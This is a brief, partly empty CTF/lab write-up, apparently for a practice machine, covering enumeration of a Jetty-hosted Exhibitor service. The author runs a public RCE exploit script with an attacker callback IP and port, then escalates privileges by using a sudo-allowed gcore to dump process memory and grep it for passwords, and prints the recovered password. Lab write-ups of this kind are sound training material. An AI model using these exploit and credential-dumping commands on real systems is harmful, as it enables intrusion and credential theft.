 #Pwned! 
```IP

```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP 8080
powered by jetty
https://github.com/thehunt1s0n/Exihibitor-RCE
```
./exploit.sh 192.168.248.98 8080 192.168.45.193 443
```
## HTTP 8081 
redirects to http://192.168.248.98:8080/exhibitor/v1/ui/index.html


# PrivEsc

## Manual
sudo -l 
reveals
ALL) NOPASSWD: /usr/bin/gcore
```
ps aux | grep -i pass
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171938.png?raw=true)
```
sudo gcore 490
```
```
strings core.490 | grep -i pass -C 1
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171858.png?raw=true)
```
ClogKingpinInning731
```
## Automated

### Peass
### Mimikatz


